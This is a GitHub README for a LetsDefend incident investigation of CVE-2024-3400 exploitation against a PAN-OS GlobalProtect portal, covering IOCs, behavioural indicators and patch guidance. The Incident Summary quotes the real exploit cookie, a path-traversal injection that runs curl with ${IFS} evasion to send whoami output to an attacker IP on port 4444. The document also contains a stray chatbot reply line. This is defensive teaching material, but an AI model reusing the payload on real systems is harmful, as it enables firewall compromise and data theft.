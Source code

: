 # letsdefend-cve2024-3400-case-study
Detection, analysis, and response strategies for CVE-2024-3400 exploitation attempts targeting Palo Alto PAN-OS GlobalProtect portals. Includes IOCs, exploit patterns, and mitigation guidance.


# CVE-2024-3400 Incident Investigation

# 🔍 Overview

This repository contains a detailed investigation and threat analysis of **CVE-2024-3400**, a critical unauthenticated command injection vulnerability affecting **Palo Alto Networks PAN-OS** software, specifically targeting the GlobalProtect portal.

On April 18, 2024, exploitation activity was detected against an internal PAN-OS firewall using the vulnerable `/global-protect/login.esp` endpoint. The attacker used a crafted `SESSID` cookie containing a backtick-executed `curl` command to reach a remote C2 server hosted at `144.172.79.92` (Miami, Florida). The exploit payload leveraged `${IFS}` to bypass simple filters and used PAN-OS’s telemetry directory to stage malicious activity. The firewall responded with a `200 OK`, indicating that the payload was likely executed successfully.

## 📄 Incident Summary

- **Event ID**: 249  
- **Detection Rule**: SOC274 – PAN-OS Command Injection Exploitation  
- **Event Time**: April 18, 2024, 03:09 AM UTC  
- **Hostname**: `PA-Firewall-01`  
- **Destination IP**: `172.16.17.139`  
- **Source IP**: `144.172.79.92`  
- **Request Method**: `POST`  
- **Endpoint**: `/global-protect/login.esp`  
- **Cookie Payload**: `SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaacurl${IFS}144.172.79.92:4444?user=$(whoami)`

- **Malicious Hashes**:  
- **SHA256**: `3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac`
- **MD5**: `0c1554888ce9ed0da1583dbdf7b31651`
- **Malicious Script**: `update.py` (executed using `/usr/bin/python3`)

## 🧠 Behavioral Indicators

- Abuse of `SESSID` for command injection
- Use of `${IFS}` for evasion
- Payload staging in `/opt/panlogs/tmp/device_telemetry`
- Involvement of the `dt_send` process post-exploitation
- Network callback to attacker's IP on port `4444`

## 🚨 Impact

- Remote unauthenticated command execution on a core security appliance
- Possible download and execution of attacker-controlled Python payload
- Abuse of PAN-OS internal telemetry mechanisms for staging or exfiltration
- Allowed traffic from a known malicious IP

## ✅ Recommended Response Actions

1. **Patch PAN-OS** to versions: `10.2.9-h1`, `11.0.4-h1`, or `11.1.2-h3`
2. **Block Malicious IP**: `144.172.79.92`
3. **Search for Indicators of Compromise (IOCs)** in logs and file systems
4. **Inspect telemetry directories** for suspicious files or execution behavior
5. **Isolate affected systems** and perform a full forensic analysis

## 📁 Contents

- `logs/`: Parsed and raw detection logs
- `ioc/`: File hashes and IPs associated with the attack
- `analysis/`: Deep dive into exploit behavior and process tracing
- `report/`: Summary and Images of the logs and codes of my investigations

---

## What is CVE-2024-3400
CVE-2024-3400 refers to a critical vulnerability in Palo Alto Networks PAN-OS, specifically affecting GlobalProtect gateways. Here's a breakdown of what is publicly known about it:

#🔥 CVE-2024-3400 – Palo Alto PAN-OS Command Injection Vulnerability
CVSS Score: 10.0 (Critical)

Published: April 2024

Affected Products: PAN-OS 10.2, 11.0, and 11.1 when GlobalProtect is enabled.

Exploitation: Confirmed in the wild (zero-day)

Vulnerability Type: Unauthenticated command injection

#🧠 What’s the Risk?
CVE-2024-3400 allows unauthenticated attackers to execute arbitrary commands on the firewall’s operating system. This essentially gives full control over affected devices without needing credentials — a serious breach point for any enterprise relying on Palo Alto firewalls.

#⚠️ Conditions Required for Exploitation:
GlobalProtect gateway must be enabled.

Specific PAN-OS versions (10.2.x, 11.0.x, 11.1.x).

Exploitable via the internet if not behind additional security layers.

#🔎 What Attackers Are Doing:
Sending crafted requests to exploit the injection flaw.

Deploying remote shells or downloading second-stage payloads.

Observed behavior includes:

Command execution via crafted URLs

Persistence mechanisms

Lateral movement within networks

#🛡️ Mitigation & Recommendations:
Patch Immediately: Palo Alto released fixes; upgrade to non-vulnerable versions (e.g., 10.2.9-h1, 11.0.4-h1, 11.1.2-h3 or later).

Check for Indicators of Compromise (IOCs) such as suspicious processes, outbound connections, or unusual CLI history.

Use tools like Shodan or asset inventories to find vulnerable appliances.

#🛠️ How to Investigate (e.g., via LetsDefend or SIEM):
Look for external IPs accessing GlobalProtect without valid authentication.

Check for suspicious command execution in logs (show system processes, cat /etc/passwd, etc.).

Monitor firewall behavior and alert on anomalous outbound connections.

Would you like help turning this into a post, incident report, or investigation summary (e.g., for LinkedIn or LetsDefend)?












> This repository serves both as an internal investigation report and an educational resource for defenders seeking to understand real-world exploitation of PAN-OS vulnerabilities. Contributions and additional observations are welcome.

